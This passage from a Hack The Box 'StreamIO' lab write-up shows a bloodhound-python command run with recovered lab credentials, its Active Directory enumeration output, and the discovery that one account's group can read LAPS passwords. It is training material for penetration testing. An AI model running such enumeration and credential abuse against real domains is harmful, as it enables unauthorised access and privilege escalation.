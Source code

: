 Let's put these credentials in a text file somewhere, we may need them later.

## BloodHound

With a valid account, we can also use one of the [BloodHound](https://github.com/BloodHoundAD/BloodHound) ingestors and gather more information about the Active Directory. BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. 

Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Here, we used a Python based ingestor for BloodHound, [BloodHound.py](https://github.com/fox-it/BloodHound.py).

```bash
$ bloodhound-python -c All -u nikk37 -p get_dem_girls2@yahoo.com -d streamIO.htb -ns 10.129.207.221 --zip
INFO: Found AD domain: streamio.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.streamio.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.streamio.htb
INFO: Found 8 users
INFO: Found 54 groups
INFO: Found 4 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.streamIO.htb
INFO: Done in 00M 06S
INFO: Compressing output into 20230427164604_bloodhound.zip
```

By looking at the BloodHound output, we can see that one of the previously recovered account **JDgodd** have the *Owns* privileges on **CORE STAFF@STREAMIO.HTB** and this group can read LAPS passwords!

![image-center](/images/htb/htb_streamio_bloodhound.png){: .align-center}

